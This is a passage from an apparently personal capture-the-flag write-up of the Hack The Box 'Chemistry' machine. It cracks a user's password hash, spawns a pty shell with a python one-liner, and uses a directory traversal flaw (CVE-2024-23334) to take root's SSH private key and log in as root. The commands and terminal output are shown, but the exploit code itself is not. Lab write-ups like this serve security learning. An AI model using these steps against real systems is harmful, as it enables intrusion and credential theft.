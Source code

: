 I try a little bit of movement, and figure out there, is another user rosa, who was in that database, along with a hashed password

So, 1 rainbow table later and I figure out her password for the website, lets call it "Password" (Nothing is free here, haha)

so i swap users to rosa

```bash
$ su - rosa
Password: Password
ls
exploit.sh
user.txt
python3 -c 'import pty; pty.spawn("/bin/bash")'
rosa@chemistry:~$
```

And flag one is in the current directory

Atp, I got stuck so, I used a hint that said to use the ss to check the current socket connections, for ther TCP port hosting a webserver.

Then from there I just did some futher enumeration (Banner Grabbing), to figure out what app the server is running and from there, if there were any vulnerabilities.

And there was, a directory traversal vulnerability, so using this I was able to find a repo that code to exploit this.

![CVE-2024-23334](/assets/images/thumbnails/htb/ctf/chemistry/CVE-2024-23334.png)

I couldnt directly download this from online, so I just downloaded it on my machine then set up a http server, and downloaded it onto the machine.

Now changing the code, I was able to get the root accounts ssh id_rsa, to which i just copied it onto my machine, and logged in as root

```bash
┌──(kali㉿kali)-[~/Desktop/Chemistry/CVE-2024-23334]
└─$ ssh -i id_rsa root@10.10.11.38
Welcome to Ubuntu 20.04.6 LTS (GNU/Linux 5.4.0-196-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/pro

 System information as of Fri 14 Mar 2025 04:54:24 PM UTC

  System load:  0.0               Processes:             247
  Usage of /:   81.6% of 5.08GB   Users logged in:       1
  Memory usage: 34%               IPv4 address for eth0: 10.10.11.38
  Swap usage:   0%

```